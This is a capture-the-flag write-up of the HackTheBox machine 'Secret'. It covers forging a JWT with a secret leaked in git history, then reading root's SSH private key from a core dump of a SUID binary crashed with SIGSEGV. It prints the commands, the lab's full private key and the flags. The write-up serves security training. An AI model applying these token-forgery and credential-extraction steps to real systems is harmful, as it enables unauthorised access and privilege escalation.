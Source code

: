 Title: HTB: Secret
Date: 03-28-2022 12:11
category:security
tags:security, boot2root, HTB, jwt, core dump
meta:security, boot2root, HTB, jwt, core dump

<img class="align-left" src="/media/2022.xx/secret_card.png" alt="Secret" width="262">

This is a writeup about a retired HacktheBox machine:
[Secret](https://www.hackthebox.com/home/machines/profile/408) publish on
October 30, 2021 by
[z9fr](https://www.hackthebox.com/home/users/profile/485024).
This box is rated as an easy machine. It implies a JWT token and its secret, as
well as a program core dump.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Only a few ports are open: 22(SSH), 80 (HTTP) and 3000(also an HTTP service
here).

![nmap](/media/2022.03/secret_nmap.png)

The website on port 3000, provide an API and its documentation. We can download
the source code from the site. Looking at the different commit we found that
the commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 "removed .env for security reasons"
might be interesting.

![git log](/media/2022.03/secret_gitlog.png)


We look at the `git diff` for this specific commit and found the non redacted
`TOKEN_SECRET` for the application.

![git diff](/media/2022.03/secret_gitdiff.png)

We create a python script that allow to interact with the API to create an
account, leveraging the known token secret to change our name to 'theadmin'
using [jwt_tool](https://github.com/ticarpi/jwt_tool)
putting our SSH public key on the box for the 'dasith' user.

[![https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee](/media/2022.03/secret_l.py.png)](https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee)

We can then connect using SSH and get the user flag.

    :::text
    $ ssh dasith@10.129.173.112
    dasith@secret:~$ cat user.txt
    7eb18a62ea270f0da664dac963a7fa05

# Root

Looking at the available file and specifically the SUID ones we found interesting
stuff in `/opt` as there is a `valgrind.log` file, a `code.c` file and a SUID
compiled binary. The presence of the [valgrind](https://valgrind.org/) file
hint us that the binary allow for core dump.

We run the SUID binary and enumerate the `/root/` and the `/root/.ssh/` folders.
There is a private SSH key that we want to retrieve.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/
    -rw-r--r--      .viminfo
    drwxr-xr-x      ..
    -rw-r--r--      .bashrc
    drwxr-xr-x      .local
    drwxr-xr-x      snap
    lrwxrwxrwx      .bash_history
    drwx------      .config
    drwxr-xr-x      .pm2
    -rw-r--r--      .profile
    drwxr-xr-x      .vim
    drwx------      .
    drwx------      .cache
    -r--------      root.txt
    drwxr-xr-x      .npm
    drwx------      .ssh

    Total entries       = 15
    Regular files       = 4
    Directories         = 10
    Symbolic links      = 1
    Save results a file? [y/N]: n

    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/
    drwx------      ..
    -rw-------      authorized_keys
    -rw-------      id_rsa
    drwx------      .
    -rw-r--r--      id_rsa.pub

    Total entries       = 5
    Regular files       = 3
    Directories         = 2
    Symbolic links      = 0
    Save results a file? [y/N]: n

We run the program again and this time we "read" the SSH key. We then put the
program on background with <CTRL+Z> and send a
[Segmentation Fault (SIGSEV)](https://en.wikipedia.org/wiki/Segmentation_fault)
to the application using `kill` and put it back in the foreground generating a
core dump.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/id_rsa

    Total characters = 2602
    Total words      = 45
    Total lines      = 39
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ ps
        PID TTY          TIME CMD
      1377 pts/0    00:00:00 bash
      1427 pts/0    00:00:00 count
      1456 pts/0    00:00:00 ps
    dasith@secret:/opt$ kill -SIGSEGV 1427
    dasith@secret:/opt$ fg
    -bash: fg: job has terminated
    [1]+  Segmentation fault      (core dumped) ./count

We use `appor-unpack` to unpack our core dump file and look for the SSH key in
it.

    :::text
    dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/p
    dasith@secret:/opt$ strings /tmp/p/CoreDump
    <SNIP>
    Save results a file? [y/N]: l words      = 45
    Total lines      = 39
    /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----

We save the SSH key and use it to connect to the box and grab the root flag.

    :::text
    └─$ ssh root@10.129.173.112 -i id_rsa_root
    root@secret:~# cat root.txt
    bb59318145fdf4a7ea1f50e6c829141c

# Wrapping up

An interesting box quit quick if you know what to do! The root part was harder
for me as I never exploited that before.
Also I tested some novelty in this article with the
[carbon](https://carbon.now.sh/) code snippet not sure to keep it that way as it
make it harder to copy paste and grep information from the article.


